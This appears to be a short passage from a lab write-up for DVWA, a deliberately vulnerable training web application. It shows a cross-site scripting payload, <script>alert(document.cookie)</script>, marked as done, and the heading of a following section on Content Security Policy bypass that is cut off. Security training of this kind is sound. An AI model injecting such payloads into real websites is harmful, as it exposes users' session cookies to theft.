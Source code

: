 ```html
<script>alert(document.cookie)</script>
```

![Untitled](DVWA%2018a0425eb14f4c03822e8c563383e612/Untitled%20101.png)

### ✨Done✨

![Untitled](DVWA%2018a0425eb14f4c03822e8c563383e612/Untitled%20102.png)

---

# 13. Content Security Policy (CSP) Bypass

### Bypass Content Security Policy (CSP) and execute JavaScript in the page.
